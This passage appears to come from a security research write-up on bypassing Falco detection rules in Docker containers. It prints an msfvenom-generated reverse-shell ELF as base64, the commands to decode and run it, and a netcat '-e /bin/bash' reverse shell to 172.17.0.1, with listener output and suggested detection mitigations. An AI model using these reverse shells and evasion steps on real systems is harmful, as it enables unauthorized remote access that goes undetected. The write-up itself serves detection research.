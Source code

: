 Finally, to be even more original and avoid triggering any rules without using previous bypasses, we can use the msfvenom tool, which is a de-facto standard payload generator in offensive security community:
```
[Kali]
kali@kali:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f elf | base64
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAAB
AAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAwgAAAAAAAAAMAQAAAAAAAAAQ
AAAAAAAAailYmWoCX2oBXg8FSJdIuQIAAbusEQABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7
WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
-----
[Container]
root@3a03766368a0:/# echo "f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAwgAAAAAAAAAMAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdIuQIAAbusEQABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=" | base64 -d > /tmp/gshell.elf
root@3a03766368a0:/# chmod +x /tmp/gshell.elf 
root@3a03766368a0:/# /tmp/gshell.elf
-----
[Host]
$ sudo nc -nlvp 443
[sudo] password for tutorial: 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:46326.
hostname
3a03766368a0
-----
[Falco]
SILENCE
``` 
<ins>Rules bypassed:</ins> **Redirect STDOUT/STDIN to Network Connection in Container**.

<ins>Suggested mitigations:</ins> Include dup2 and dup3 sister calls; create separate rule to detect msfvenom-generated payloads; create separate rule to detect mkfifo and mknod coupled with the usage of netcat.

### Bypass rules based on command arguments manipulation

Another standard way to initiate a reverse shell is through the usage of the netcat utility with executable parameters:
```
[Container]
$ docker run -it sshayb/fuber:latest bash
root@7917d5e18fd8:/tmp# nc 172.17.0.1 443 -e /bin/bash
-----
[Host]
[tutorial@osboxes ~]$ sudo nc -nlvp 443
[sudo] password for tutorial: 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:55110.
hostname
7917d5e18fd8
-----
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
